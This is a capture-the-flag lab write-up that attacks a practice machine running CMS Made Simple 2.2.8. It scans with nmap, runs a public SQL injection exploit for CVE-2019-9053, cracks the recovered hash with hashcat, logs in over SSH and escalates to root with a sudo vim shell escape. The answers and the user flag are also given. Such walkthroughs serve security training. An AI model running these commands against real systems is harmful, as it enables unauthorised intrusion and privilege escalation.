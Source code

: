 **1. How many services are running under port 1000?**

Let's start with enumerationg the machine using NMAP and save the result to txt file:
`nmap -sS -sV -A <IP> -oN nmap.txt`
```
snip ...
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
snip ...
```
We can see there are three open ports and two of them are under 1000. 


**2. What is running on the higher port?**

ssh is running on port 2222

**3.What's the CVE you're using against the application?**

Now, we need to enumerate a little bit to find out our CVE to use. Our NMAP showing us that there is an apache server is running on port 80, let's go and open it using our IP. 
![apache](https://user-images.githubusercontent.com/101599690/215180783-3b774595-dcc9-4904-bfb6-42e225ebe59a.png)

There is nothing really intersting here, it just a defaul apache server webpage. Let's try find if there are any hidden directories using dirb. 
`dirb http://IP /usr/share/dirb/wordlists/common.txt`

We found there is a directory called `simple`, let's look at it. Go to `http://IP/simple/`.

Looking around, we found the website is `CMS made simple`. 

![CMS](https://user-images.githubusercontent.com/101599690/215182559-ae148fb7-2604-49d2-962d-49ef80e011f6.png)

**Now we need to know the version of the website, to know exactly which CVE we are going to use. The website shows us the version at the bottom of the webpage, which is `2.2.8`.**

![simple](https://user-images.githubusercontent.com/101599690/215182740-d12c48ae-bea3-4014-a111-b0d3534f3025.png)

**Using searchploit to find out the vulnerability of this webpage version.** 

`searchploit CMS made simple 2.2.8`

![Screenshot 2023-01-27 150318](https://user-images.githubusercontent.com/101599690/215186517-fed48b5f-cf27-4a08-bfa9-312955df29b8.png)

Now we know the vunlerability we are going to use, and searching in `cve.mitre.org` we know the CVE-ID sis `CVE-2019-9053`. 

**3. What's the CVE you're using against the application?**

`CVE-2019-9053`

**4. To what kind of vulnerability is the application vulnerable?**

`SQLI`

**5. What's the password?**

Searching about this CVE, I found there is a script to get the username and hash password. I get the script from `https://github.com/e-renna/CVE-2019-9053`.

Let's use the script on the simple webpage. `python3 exploit.py -u http://IP/simple/`.

![ssss](https://user-images.githubusercontent.com/101599690/215186636-8ea7ad0d-3e86-44cb-9d14-46958e466b3f.png)


The script gives us the a salt password and hash password. We can crack the paswword using the hash and salt using hashcat. Storing the `hash:salt` using this foramt to a text file and cun `hashcat -a 0 -m 20 password.txt password.txt /usr/share/wordlists/rockyou.txt`. We specify the hash is of type md5 `-a 0` and choosing the format `20 = md5($salt.$pass)` by `-m 20`. 

![hashcat](https://user-images.githubusercontent.com/101599690/215195389-921d8ac1-4865-43a4-bca1-73e55507343b.png)


I found the password is `secret`. Now, we have the username and password. We can try to login using ssh service `ssh mitch@IP -p2222`. 

![ssh](https://user-images.githubusercontent.com/101599690/215196554-1dd9c106-23d4-423a-8c7c-922f413fbb3d.png)

**6. Where can you login with the details obtained?**

ssh

**7. What's the user flag?**

G00d j0b, keep up!

**8. Is there any other user in the home directory? What's its name?**

We can enumerate the machine and go to `/home` to see and get the other username which is `sunbath`.

**9. What can you leverage to spawn a privileged shell?**

To see our privilege we can do `sudo -l` and find that we have `vim` 

![sudo -l](https://user-images.githubusercontent.com/101599690/215198408-0bfed614-095f-4abe-bfc0-ce34f919191c.png)

To see what we can do with `vim` command, `https://gtfobins.github.io/` is a good source. 

![vim](https://user-images.githubusercontent.com/101599690/215199003-79303d82-0ab9-410a-96f9-42778a760d5c.png)

so we can run a shell using `sudo vim -c ':!/bin/sh'` and escalate our privileges. 

![root](https://user-images.githubusercontent.com/101599690/215199506-95136a6a-76d1-469c-8232-baf08e1265e8.png)


